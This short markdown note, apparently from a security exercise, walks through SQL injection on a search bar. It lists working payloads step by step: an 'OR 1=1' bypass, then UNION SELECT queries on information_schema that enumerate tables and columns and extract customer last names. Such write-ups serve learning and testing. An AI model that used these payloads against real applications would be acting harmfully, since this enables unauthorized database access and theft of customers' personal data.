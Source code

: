 # SQL Injection

Simples sql injection is possible by putting `'OR 1=1) -- '` in the search bar

### Thought process

Could be good to allow user to look into the query syntax somehow on error (return sql errors straight to the fronted?)

Next step is getting info about tables:
`') UNION ALL SELECT 0,1,2,3,4,5,6,7,8,9 FROM information_schema.tables -- .`

INFORMATION_SCHEMA.TABLES have columns:

> TABLE_NAME, ENGINE, VERSION, ROW_FORMAT, TABLE_ROWS, AVG_ROW_LENGTH,
> DATA_LENGTH, MAX_DATA_LENGTH, INDEX_LENGTH, DATA_FREE, AUTO_INCREMENT,
> CREATE_TIME, UPDATE_TIME, CHECK_TIME, TABLE_COLLATION, CHECKSUM,
> CREATE_OPTIONS, TABLE_COMMENT

Useful is probably this one:

> TABLE_NAME

`asdf') UNION ALL SELECT 0,1,table_name,3,4,5,6,7,8,9 FROM information_schema.tables -- .`

Get columns:

`asdf') UNION ALL SELECT 0,1,COLUMN_NAME,3,4,5,6,7,8,9 FROM information_schema.columns where table_name = 'customer' -- .`

Get user lastname:

`asdf') UNION ALL SELECT 0,1,lastname,3,4,5,6,7,8,9 FROM customer WHERE customer_id=420 -- .`
